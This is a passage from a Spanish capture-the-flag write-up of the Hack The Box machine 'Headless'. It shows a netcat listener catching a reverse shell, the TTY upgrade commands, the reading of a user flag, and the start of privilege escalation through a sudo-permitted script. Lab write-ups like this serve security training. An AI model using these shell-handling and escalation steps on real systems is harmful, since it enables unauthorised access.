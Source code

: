 ```bash
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.16.36] from (UNKNOWN) [10.10.11.8] 34654
bash: cannot set terminal process group (1370): Inappropriate ioctl for device
bash: no job control in this shell
dvir@headless:~/app$ whoami
whoami
dvir
dvir@headless:~/app$
```

# [](#header-4) Tratamiento de TTY
Procedemos a hacer una un tratamiento de la TTY para obtener una consola interactiva
```bash
dvir@headless:~/app$ script /dev/null -c bash
script /dev/null -c bash
Script started, output log file is '/dev/null'.
dvir@headless:~/app$ 
```
Presionamos Ctrl+Z, luego ingresamos el comando `stty raw -echo; fg` luego de esto reset xterm asi nos resetea la consola
```bash
❯ stty raw -echo; fg
[1]  + continued  nc -nlvp 443
                              reset xterm
```
Luego procedemos con
```bash
dvir@headless:~/app$ export TERM=xterm
dvir@headless:~/app$ export SHELL=/bin/bash
dvir@headless:~/app$ stty rows 29 columns 128
```
- En stty rows columns deberan fijarse la proprorciones de su consola en una ventana aparte con
`stty size`
![Pasted image 20240724122717.png](../assets/images-Headless/Headless11.png)
Ahora vemos la flags del usario
```bash
dvir@headless:~$ cat user.txt 
**************************7467e1cd
```

---------------
# [](#header-2)Privilege Escalation
Vemos que con este usuario puede ejecutar un script como sudo sin proporcionar contraseña
```bash
dvir@headless:~$ sudo -l
Matching Defaults entries for dvir on headless:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User dvir may run the following commands on headless:
    (ALL) NOPASSWD: /usr/bin/syscheck
```
Vemos que a este script no podemos modificarlo solo ejecutarlo y leerlo
```bash
dvir@headless:~$ ls -la /usr/bin/syscheck
-r-xr-xr-x 1 root root 768 Feb  2 16:11 /usr/bin/syscheck
dvir@headless:~$ 
```